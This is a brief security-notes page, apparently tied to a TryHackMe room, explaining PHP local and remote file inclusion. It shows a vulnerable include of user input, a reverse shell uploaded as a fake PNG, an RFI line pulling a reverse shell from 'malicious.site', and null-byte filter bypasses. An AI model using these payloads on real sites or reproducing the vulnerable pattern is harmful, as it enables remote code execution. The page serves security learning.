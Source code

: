 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Files inclusion refers to websites that are importing a file using the user input <small>(`import/require` in PHP)</small>. 

For instance: `http://vulnerable.site/?lang=FR` that is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

If the import is not filtered, we can use [Path traversal](traversal.md) to include a malicious file, such as one we uploaded using another attack.
</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sep-both">

## Additional notes 🔎

<div class="row row-cols-md-2 mt-4"><div>

* **PHP < 5.3.4**: if there was a constraint of a specific extension, you could use the **Null Byte** `%00` which indicates the end of a string.

```php
# bypass filter .md only
file=xxx.php%00.md
```

```php
include "xxx.cgi%00.php" // include xxx.cgi
```
</div><div>
</div></div>